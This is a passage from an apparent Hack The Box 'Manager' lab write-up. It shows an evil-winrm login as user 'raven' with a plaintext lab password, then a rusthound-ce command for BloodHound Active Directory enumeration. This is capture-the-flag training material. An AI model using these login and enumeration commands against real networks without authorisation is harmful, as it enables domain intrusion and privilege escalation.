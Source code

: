 ![image.png](/assets/images/Manager_HTB/image%2021.png)

It says pwned! means we have elevated privileges as user **raven.**

```bash
evil-winrm -i manager.htb -u 'raven' -p 'R4v3nBe5tD3veloP3r!123'
```

![image.png](/assets/images/Manager_HTB/image%2022.png)

Successfully logging in and grabbing the user.txt.

---

Since we have valid credentials we can do bloodhound enumeration.

### Bloodhound

For the bloodhound enumeration we are gonna use the rusthound-ce ingestor as it also collects the Active Directory Certificate Services data too.

```bash
rusthound-ce -d manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123' -z
```
